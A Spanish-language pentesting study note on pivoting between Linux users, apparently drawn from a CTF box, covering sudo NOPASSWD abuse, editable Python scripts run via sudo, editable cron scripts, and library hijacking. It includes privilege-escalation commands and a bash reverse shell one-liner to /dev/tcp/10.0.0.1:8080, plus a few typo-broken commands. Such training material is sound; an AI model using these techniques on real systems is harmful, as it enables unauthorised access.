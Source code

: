 ```yaml
---
title: "Pivoting De Usuarios"
layout: "single"
category: "Linux Pentesting"
slug: "linux-pentesting/pivoting-de-usuarios"
date: "2025-09-30"
---
```


#### CASO 1(comandos como sudo)
Si vemos que al hacer **sudo -l**, hay algún usuario que nos permita ejecutar comandos sin contraseña. Algo así:
```bash
User_ww-data may run the following commands on watcher: 
(toby) NOPASSWD: ALL 
www-datafwatcher:/home/toby$
```

Podriamos tratar de pivotar a ese usuario, ejecutando una bash como ese usuario. Explicación: Si ejecutas 
```bash
sudo -u toby <comando> 
```

dicho comando, se ejecutará como si fueras **toby**, asi que podemos tratar de lanzar una bash como el usuario toby de la siguiente manera:
```bash
sudo -u toby /bin/bash
```

ya que toby puede ejecutar cualquier comando sin necesidad de contraseña, también podemos ejecutar una bash como toby y ya habríamos pivotado de usuario.

#### CASO 2 (script editable en python)
(parecido al anterior)
Si al hacer **sudo -l** vemos que podemos ejecutar un script específico en **python**, y encima podemos editar ese script, o como en este caso, tenemos un script no editable, pero que llama a otro script que si lo es. pues editamos dicho script y lo dejamos algo parecido a esto:

```python
import os 
os.system(*/bin/bash =p")
```

Al hacer **Sudo -L**: vemos que podemos ejecutar python3 y will_script.py
```bash
User mat may run the following commands on watcher: 
(will) NOPASSWO: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

después de editar dicho script: (OJO A LA RUTA ABSOLUTA)
```bash
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py
```

#### CASO 3 (Script editable con tarea cron)
Si localizamos un script que se ejecuta como tarea cron y encima es editable, podriamos pivotar al usuario propietario de ese script.

**Tenemos 2 formas**
```bash
sudo -u <usuario_propietario_del_script> /bin/bash

O establecer una reverse shell. 

"bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

### CASO 4 (Script python que importa librería) (Library Hijacking)
#### MEJOR MIRAR SECCIÓN LIBRARY HIJACKING
![[10 - Python Library Hijacking]]